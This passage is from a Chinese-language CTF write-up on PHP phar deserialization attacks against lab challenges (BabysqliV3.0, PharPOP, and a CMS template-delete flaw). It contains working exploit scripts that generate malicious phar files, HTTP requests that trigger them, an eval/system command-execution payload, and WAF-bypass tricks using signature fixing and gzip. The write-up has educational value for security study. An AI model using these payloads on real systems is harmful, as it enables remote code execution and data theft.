

位置也知道，并且data目录肯定是有足够权限的，所以写个exp

```php
<?php
class PclZip{
    var $zipname = '';
    var $zip_fd = 0;
    var $error_code = 1;
    var $error_string = '';
    var $magic_quotes_status;
    var $save_path = '/var/www/html/data';

    function __construct($p_zipname){

        $this->zipname = $p_zipname;
        $this->zip_fd = 0;
        $this->magic_quotes_status = -1;

        return;
    }

}
@unlink("phar.phar");
$a=new PclZip("/var/www/html/data/attachment/brand/1.zip");
echo serialize($a);
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

rename("phar.phar", "phar.txt");
?>
```

然后删除phar文件，触发phar反序列化，进行解压恶意文件

```http
GET /admin.php?mod=moban&act=del&token=1f2fa1ee9eeb0a2f354e00711f2dae37&tpl=phar:///var/www/html/data/attachment/brand/6.txt HTTP/1.1
Host: db525244-9f5c-41ec-be44-7cd16d0e7524.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: http://db525244-9f5c-41ec-be44-7cd16d0e7524.node5.buuoj.cn:81/admin.php?mod=moban
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9ahime1da2timrfga6nm4i1g17
Connection: close


```



有个小细节忘了，就是之前我们看admin.php进行删除的时候其实有个函数漏看了，导致一直删不了模版

```php
function pe_token_match() {
	global $pe;
	$referer = parse_url($_SERVER['HTTP_REFERER']);
	$pe_token = $_POST['pe_token'] ? $_POST['pe_token'] : $_GET['token'];	
	if (@stripos($pe['host_root'], $referer['host']) === false or $pe_token != $_SESSION['pe_token'] or $pe_token == '' or $_SESSION['pe_token'] == '') {
		unset($_POST['pe_token']);
		pe_error('跨站操作...');
	}
	unset($_POST['pe_token']);
}
```

token抓包就可以获得，Referer来过host检测

## demo5

**[GXYCTF2019]BabysqliV3.0**

`admin\password`进后台之后发现有一个`upload.php`

发现参数有猫腻，LFI进行文件读取

```php
//upload.php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>
```

`file_get_contents`触发phar反序列化，有可控参数cmd，只需要一个条件就是token，在文件移动之后可以知道`md5($_SESSION['user'])`的文件夹，`$_SESSION['user']`的文件名，先随便上传一个文件即可知道token，有点离谱的是非要我抓包才能获得token

```php
//home.php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

这个文件就是个文件读取，没什么好说的，本来是打算写文件的没成功，而且我上传一次之后发现是不能成功的，本地调试发现只上传一次的话，会因为触发move而导致已经没有这个文件了，所以要上传两次文件，并且第二次上传的时候还顺带解析phar文件

```php
<?php
class Uploader{
    public $Filename;
    public $cmd;
    public $token;


    function __construct(){
        $this->Filename="test";
        //$this->cmd = "file_put_contents('shell.php','<?php eval(\$_POST[1])');";
        $this->cmd="eval(\$_GET[1]);phpinfo();";
        $this->token = "GXY0ba2eb8dc80de06d69f56480135689f8";
    }

}
@unlink("phar.phar");
$a=new Uploader();
echo serialize($a);
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

?>
```

```http
POST /home.php?file=upload HTTP/1.1
Host: 42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81
Content-Length: 564
Cache-Control: max-age=0
Origin: http://42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvAs2dFQNUbuJIymi
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81/home.php?file=upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=96ed4ab68873b5d4f16f5c04082ee3a6
Connection: close

------WebKitFormBoundaryvAs2dFQNUbuJIymi
Content-Disposition: form-data; name="file"; filename="phar.phar"
Content-Type: application/octet-stream

GIF89a<?php __HALT_COMPILER(); ?>
�
```

```http
POST /home.php?file=upload&name=phar:///var/www/html/uploads/1d7262715c64ee43ff0aa98b8c17ff49/GXY0ba2eb8dc80de06d69f56480135689f8.txt/test.txt&1=system("tac+f*"); HTTP/1.1
Host: 42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81
Content-Length: 587
Cache-Control: max-age=0
Origin: http://42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTLs38iOHyhuPxMZ8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://42d7c261-214c-47a9-bd3a-16b8726edd64.node5.buuoj.cn:81/home.php?file=upload&name=phar:///var/www/html/uploads/1d7262715c64ee43ff0aa98b8c17ff49/GXY0ba2eb8dc80de06d69f56480135689f8.txt/test.txt
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=96ed4ab68873b5d4f16f5c04082ee3a6
Connection: close

------WebKitFormBoundaryTLs38iOHyhuPxMZ8
Content-Disposition: form-data; name="file"; filename="phar.phar"
Content-Type: application/octet-stream

GIF89a<?php __HALT_COMPILER(); ?>
�
```



## demo6

**[Dest0g3 520迎新赛]PharPOP**

```php
<?php
highlight_file(__FILE__);

function waf($data){
    if (is_array($data)){
        die("Cannot transfer arrays");
    }
    if (preg_match('/get|air|tree|apple|banana|php|filter|base64|rot13|read|data/i', $data)) {
        die("You can't do");
    }
}

class air{
    public $p;

    public function __set($p, $value) {
        $p = $this->p->act;
        echo new $p($value);
    }
}

class tree{
    public $name;
    public $act;

    public function __destruct() {
        return $this->name();
    }
    public function __call($name, $arg){
        $arg[1] =$this->name->$name;

    }
}

class apple {
    public $xxx;
    public $flag;
    public function __get($flag)
    {
        $this->xxx->$flag = $this->flag;
    }
}

class D {
    public $start;

    public function __destruct(){
        $data = $_POST[0];
        if ($this->start == 'w') {
            waf($data);
            $filename = "/tmp/".md5(rand()).".jpg";
            file_put_contents($filename, $data);
            echo $filename;
        } else if ($this->start == 'r') {
            waf($data);
            $f = file_get_contents($data);
            if($f){
                echo "It is file";
            }
            else{
                echo "You can look at the others";
            }
        }
    }
}

class banana {
    public function __get($name){
        return $this->$name;
    }
}
// flag in /
if(strlen($_POST[1]) < 55) {
    $a = unserialize($_POST[1]);
}
else{
    echo "str too long";
}

throw new Error("start");
?>
Fatal error: Uncaught Error: start in /var/www/html/index.php:80 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 80
```

GC绕过抛出错误，参数不能太长，利用原生类进行列目录和文件读取，先利用类D来写入phar文件，然后用类D触发phar反序列化，没毛病开整

```
tree::__destruct()->tree::__call()->apple::__get()->air::__set()
```

```php
<?php
class D {
    public $start;
}
$a=new D();
//$a->start='w';
$a->start='r';
echo serialize($a);

```

```php
<?php
class air{
    public $p;
}

class tree{
    public $name;
    public $act;
}

class apple {
    public $xxx;
    public $flag;
}
@unlink("phar.phar");
$a=new tree();
$a->name=new tree();
$a->name->name=new apple();
$a->name->name->xxx=new air();
$a->name->name->xxx->p=new tree();
//$a->name->name->xxx->p->act="DirectoryIterator";
//$a->name->name->flag="glob:///*f*";
$a->name->name->xxx->p->act="SplFileObject";
$a->name->name->flag="/fflaggg";
echo serialize($a);
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

?>

```

```python
from hashlib import sha1

with open('phar.phar', 'rb') as file:
    f = file.read()

s = f[:-28]  # 获取要签名的数据
h = f[-8:]  # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h

with open('exp.phar', 'wb') as file:
    file.write(newf)
```

因为有waf检测类关键词，所以进行gzip压缩

```python
import urllib.parse
import gzip

with open("exp.phar", 'rb') as f:
    phar_data = f.read()

compressed_data = gzip.compress(phar_data)
encoded = urllib.parse.quote(compressed_data)
print(encoded)
```



